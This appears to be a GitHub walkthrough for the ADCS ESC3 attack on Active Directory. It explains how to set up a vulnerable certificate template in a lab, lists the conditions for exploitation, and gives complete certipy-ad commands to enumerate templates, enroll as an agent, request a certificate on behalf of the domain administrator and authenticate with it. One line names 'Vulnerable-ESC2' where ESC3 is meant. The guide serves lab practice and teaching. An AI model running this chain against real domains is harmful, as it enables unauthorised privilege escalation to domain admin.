




# 🔐 Active Directory Certificate Services (ADCS) - Enterprise CA Security Configuration 3 (ESC3) Abuse Guide

## Reference

- [Blog for ADCE-ESC3](https://www.rbtsec.com/blog/active-directory-certificate-services-adcs-esc3/)

- [Youtube Video](https://www.youtube.com/watch?v=sMTwPU-FTuk&ab_channel=HichamElAaouad)


##  What is ESC3?

ESC3 (Escalation Scenario 3) is a post-exploitation technique in Active Directory Certificate Services (ADCS) where an attacker can abuse a misconfigured **Certificate Template** with **Certificate Request Agent** (Enrollment Agent) permissions. This misconfiguration allows a **low-privileged domain user** to request a certificate **on behalf of another user**, including high-privileged accounts like **Domain Admins**.

---

##  Setting Up the ESC3 Misconfiguration (Lab Environment)

To reproduce or test this misconfiguration in a lab environment:

### 1. Create a New Certificate Template

- Open **Certificate Authority** → Manage → Certificate Templates.
- Duplicate an existing template (e.g., "User") and name it something like **ESC3**.

### 2. Modify the Following Settings:

####  **Extended Key Usage (EKU)**:
- Add or enable the EKU:  
  `Certificate Request Agent (1.3.6.1.4.1.311.20.2.1)`
    
    

>  **Why this EKU?**  
> The **Certificate Request Agent EKU** allows a user to **request certificates on behalf of another identity**. This is the core of ESC3 — if misused, it can be leveraged by a non-privileged user to impersonate a Domain Admin.

####  **Permissions** (Security Tab):
- Give **Domain Users** or **Authenticated Users**:
  - **Enroll** permission.


####  Disable Manager Approval:
- Go to the **Issuance Requirements** tab.
- Make sure **"Manager approval"** is **unchecked**.

    

### 3. Publish the Template
- Go back to the CA, right-click **Certificate Templates** → **New** → **Certificate Template to Issue** → Select **ESC3**.

---


##  Key Conditions for ESC3 Exploitation

### 1️⃣ Certificate Request Agent EKU is Enabled

- The certificate template includes the **Extended Key Usage (EKU)**:  
  `Certificate Request Agent (1.3.6.1.4.1.311.20.2.1)`

> **ESC3 Condition #1:** EKU includes **Certificate Request Agent**

---

### 2️⃣ Enroll Permissions Granted to Low-Privilege Users

- **Domain Users**, **Authenticated Users**, or any unprivileged group has **Enroll** rights on the vulnerable template.

> **ESC3 Condition #2:** Low-privileged users can enroll using the template

---

### 3️⃣ Manager Approval is Not Required

- The template setting **"Manager approval"** is disabled, meaning certificates can be issued without human oversight.

> **ESC3 Condition #3:** No manager approval required for enrollment

---

### 4️⃣ Certificate Template is Published and Enabled

- The template is issued by the CA and actively available for use.

> **ESC3 Condition #4:** Vulnerable certificate template is **enabled and published**



---


## Enumerating ESC3 with Certipy

```bash
certipy-ad find -u jack -p complex1@ -dc-ip 192.168.129.140 -vulnerable -enabled
```

- Look for a template like `Vulnerable-ESC2` that is vulnerable and enabled.

---

##  Exploit ESC3 in Two Stages

---

### 🔹 Stage 1: Request a Certificate for the Attacker

```bash
certipy-ad req -ca furious-DC01-FURIOUS5-CA -dc-ip 192.168.129.140 -u jack -p 'complex1@' -template Vulnerable-ESC3 -target furious.local
```

- This creates a `.pfx` file (e.g., `jack.pfx`) that can be used to **sign future certs**.

---

### 🔹 Stage 2: Request Certificate on Behalf of Domain Admin

```bash
certipy-ad req -ca furious-DC01-FURIOUS5-CA -dc-ip 192.168.129.140 -u jack -p 'complex1@' -template USER -target furious.local -on-behalf-of 'furious\administrator' -pfx jack.pfx
```

- This uses `jack.pfx` to request a new cert **on behalf of a Domain Admin**

### Step 3: Authenticate with the Certificate

```bash
certipy-ad auth -pfx administrator.pfx
```
